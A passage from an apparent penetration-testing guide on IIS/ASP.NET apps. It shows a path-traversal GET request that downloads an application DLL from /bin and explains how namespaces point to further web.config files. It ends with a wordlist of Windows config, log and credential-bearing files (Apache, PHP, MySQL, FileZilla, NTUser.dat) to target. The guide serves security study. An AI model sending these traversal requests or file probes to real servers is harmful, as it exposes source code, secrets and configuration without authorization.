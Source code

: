 ### **Downloading DLLs**

The mention of a custom namespace hints at a DLL named "**WebApplication1**" present in the /bin directory. Following this, a request to download the **WebApplication1.dll** is shown:

```html
GET /download_page?id=..%2f..%2fbin/WebApplication1.dll HTTP/1.1
Host: example-mvc-application.minded
```

This suggests the presence of other essential DLLs, like **System.Web.Mvc.dll** and **System.Web.Optimization.dll**, in the /bin directory.

In a scenario where a DLL imports a namespace called **WebApplication1.Areas.Minded**, an attacker might infer the existence of other web.config files in predictable paths, such as **/area-name/Views/**, containing specific configurations and references to other DLLs in the /bin folder. For example, a request to **/Minded/Views/web.config** can reveal configurations and namespaces that indicate the presence of another DLL, **WebApplication1.AdditionalFeatures.dll**.

### Common files

From [here](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

```
C:\Apache\conf\httpd.conf
C:\Apache\logs\access.log
C:\Apache\logs\error.log
C:\Apache2\conf\httpd.conf
C:\Apache2\logs\access.log
C:\Apache2\logs\error.log
C:\Apache22\conf\httpd.conf
C:\Apache22\logs\access.log
C:\Apache22\logs\error.log
C:\Apache24\conf\httpd.conf
C:\Apache24\logs\access.log
C:\Apache24\logs\error.log
C:\Documents and Settings\Administrator\NTUser.dat
C:\php\php.ini
C:\php4\php.ini
C:\php5\php.ini
C:\php7\php.ini
C:\Program Files (x86)\Apache Group\Apache\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache\logs\access.log
C:\Program Files (x86)\Apache Group\Apache\logs\error.log
C:\Program Files (x86)\Apache Group\Apache2\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache2\logs\access.log
C:\Program Files (x86)\Apache Group\Apache2\logs\error.log
c:\Program Files (x86)\php\php.ini"
C:\Program Files\Apache Group\Apache\conf\httpd.conf
C:\Program Files\Apache Group\Apache\conf\logs\access.log
C:\Program Files\Apache Group\Apache\conf\logs\error.log
C:\Program Files\Apache Group\Apache2\conf\httpd.conf
C:\Program Files\Apache Group\Apache2\conf\logs\access.log
C:\Program Files\Apache Group\Apache2\conf\logs\error.log
C:\Program Files\FileZilla Server\FileZilla Server.xml
C:\Program Files\MySQL\my.cnf
C:\Program Files\MySQL\my.ini
C:\Program Files\MySQL\MySQL Server 5.0\my.cnf
C:\Program Files\MySQL\MySQL Server 5.0\my.ini
C:\Program Files\MySQL\MySQL Server 5.1\my.cnf
C:\Program Files\MySQL\MySQL Server 5.1\my.ini
C:\Program Files\MySQL\MySQL Server 5.5\my.cnf
C:\Program Files\MySQL\MySQL Server 5.5\my.ini
C:\Program Files\MySQL\MySQL Server 5.6\my.cnf
C:\Program Files\MySQL\MySQL Server 5.6\my.ini
C:\Program Files\MySQL\MySQL Server 5.7\my.cnf
```